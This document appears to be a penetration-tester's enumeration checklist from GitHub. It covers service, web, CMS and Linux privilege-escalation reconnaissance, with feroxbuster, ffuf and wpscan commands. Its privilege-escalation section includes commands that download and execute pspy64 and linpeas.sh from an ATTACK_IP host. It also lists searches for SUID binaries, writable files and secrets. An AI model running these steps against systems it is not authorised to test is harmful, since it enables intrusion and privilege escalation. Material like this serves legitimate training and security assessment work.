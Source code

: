 # Enumeration Methodology

### 1) Low Hanging Fruits

1) Check for anonymous access for FTP and SMB protocols

If yes, then grab any files you find within the network share or FTP folder

2) Check protocol/application version for possible public RCE or similar exploit (Example: EternalBlue)

3) Within a web page, check the page source for any comments that might have been left out (<!--) or interesting files that we might encounter

They may contain credentials, etc

### 2) Directory Fuzzing

Enumerate the directories of a webserver to check for admin pages, specific application directories, etc to further discover the webapp

You can also enumerate other interesting files like .txt, .conf or .php 

Wordlists to use: 

1) common.txt

2) directory-list-2.3-medium.txt

        feroxbuster -u http://DOMAIN.LOCAL/ -w /usr/share/wordlists/dirb/common.txt -C 404 -x txt

### 3) Subdomain/Vhost Fuzzing

Enumerate vhosts of the machine to discover another attack surface

Use the filters for false positives

Wordlists to use:

DNS-Subdomains-top-1million-11000.txt

        ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/DNS-Subdomains-top-1million-11000.txt -u http://domain.local/ -H 'Host: FUZZ.local.local' -fs NUM

### 4) CMS Enumeration

If we find a wordpress installation on the server, use wpscan tool to scan for information.

You can also conduct attacks with wpscan like bruteforce if we have a valid user.

Same methodology works with other CMS as well like Joomla and Drupal

    wpscan --url http://domain.local/

### 5) Linux Local Privilege Escalation LPE Enumeration

On a linux machine, we can do some checks to see if we can exploit them to do lateral movement, or even root the machine.

#### Checks:

1) Sudo privileges (Authenticated)

       sudo -l

2) SUID bit files

        find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null	

3) Open ports/services/applications within the machine

        ss -tulpn
        netstat -ano

4) Check for running processes either as root, or as another target user for lateral movement

        wget http://ATTACK_IP:PORT/pspy64

        chmod +x ./pspy64

        ./pspy64

5) Check detailed contents of a directory like hidden files, file size, ownership

        ls -lah

6) Automated Enumeration

        wget http://ATTACK_IP:PORT/linpeas.sh

        chmod +x ./linpeas.sh

        ./linpeas.sh

7) Interesting groups of the current user

        id

8) Environment Variables

        env

9) Command history

        history

10) Writeable files and directories of the current user

        find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

11) Chech the current user's PATH variable contents

        echo $PATH

